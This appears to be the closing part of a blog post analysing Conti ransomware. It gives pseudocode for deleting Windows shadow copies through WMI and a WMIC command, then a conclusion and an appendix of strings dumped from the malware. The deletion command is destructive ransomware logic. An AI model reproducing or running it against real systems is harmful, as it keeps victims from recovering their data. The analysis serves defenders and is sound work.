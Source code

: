 The full pseudocode for deletion is:
```c
IWbemLocator = CoCreateInstance(wbemprox_dll_clsid, 0, 1, IID_IWbemLocator_interface_clsid)

if x64_system:
	IWbemContext = CoCreateInstance(fastprox_dll_clsid, 0, 1, IID_IWbemContext_interface_clsid)
	IWbemContext::SetValue("_ProviderArchitecture", 0, 64)


IWbemServices = IWbemLocator::ConnectServer("ROOT\\CIMV2", ......)
for copy in IWbemServices::ExecQuery("WQL", "SELECT * FROM Win32_ShadowCopy", ......):
	ID = IWbemClassObject::Get("ID", .......)
	wsprintfw(cmdline, "cmd.exe /c C:\Windows\System32\wbem\WMIC.exe shadowcopy where "ID='%s'" delete", ID)
		
	Wow64DisableWow64FsRedirection()
	CreateProcess(NULL, cmdline, .......)
	Wow64RevertWow64FsRedirection()
```

# Conclusion <a name="conclusion"></a>
Conti's code, while not particularly ground-breaking, is incredibly destructive when used in a targeted attack. When used by an operator during an attack it no longer has to consider AV or communicating with a c2c server. Pair that with the ability to guide the ransomware using command-line arguments and give the operator output through logging, it is a piece of kit that shouldn't be underestimated.


If you are dealing with a ransomware attack in which this version was involved and still have questions after reading this blog, feel free to reach out (here) [TODO: insert link to contact page]


# Appendix <a name="appendix"></a>
Some of the information gathered during the analysis.

## Appendix A <a name="appendix_a"></a>
List of strings dumped from the last stage of the Conti malware. (not ordered)

```
kernel32.dll
OleAut32.dll
Shlwapi.dll
Shell32.dll
Iphlpapi.dll
Rstrtmgr.dll
Iphlpapi.dll
Advapi32.dll
Kernel32.dll
ws2_32.dll
ntdll.dll
Shlwapi.dll
Advapi32.dll
User32.dll
Can't gen key for file %s. GetLastError = %lu
.avhd
.vhd
.fm5
.xmlff
.trm
.spq
.sas7bdat
.p97
.nsf
```